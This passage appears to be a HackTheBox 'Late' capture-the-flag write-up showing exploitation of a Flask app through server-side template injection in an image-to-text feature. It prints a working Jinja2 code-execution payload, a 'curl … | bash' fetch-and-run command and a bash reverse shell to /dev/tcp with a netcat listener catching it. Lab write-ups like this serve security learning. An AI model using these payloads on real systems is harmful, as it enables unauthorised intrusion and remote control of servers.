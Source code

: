 # Exploitation

Since this was a Flask application, we should check whether it is vulnerable to SSTI. To test this, I used a payload text of `{{1+1}}`. Here was the result.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# cat /home/shiro/Downloads/results\(1\).txt
<p>2
</p>        
```

>   Note that the flask application might not read the image properly. To bypass this, we can either make the text wider with spaces in between the payload like `{ { 1 + 1 } }` and/or change the zoom level!

Nice. The application is vulnerable to SSTI. Lets use our handy [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) to try out some payloads. I tried different payloads but this seems to work the best - `{{ cycler.__init__.__globals__.os.popen('id').read() }}`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# cat /home/shiro/Downloads/results\(2\).txt 
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>  
```

>   Note: I used this [tool](https://cloudconvert.com/txt-to-jpg) to convert the text to image instead as it seems to be more reliable than the previous tool.

Here’s our plan. 

-   We create a simple reverse shell script and host the script on our own server 
-   Modify the SSTI payload that we found with this command - `curl http://10.10.14.4/rev.sh | bash`
-   Start a netcat listener
-   Upload the image to the application and wait for the listener to catch the shell

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# cat rev.sh                                
#!/bin/bash

bash -c 'exec bash -i &>/dev/tcp/10.10.14.4/1234 <&1'

- Netcat Listener -                                   
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.156] 45300
bash: cannot set terminal process group (1227): Inappropriate ioctl for device
bash: no job control in this shell
svc_acc@late:~/app$ 
```
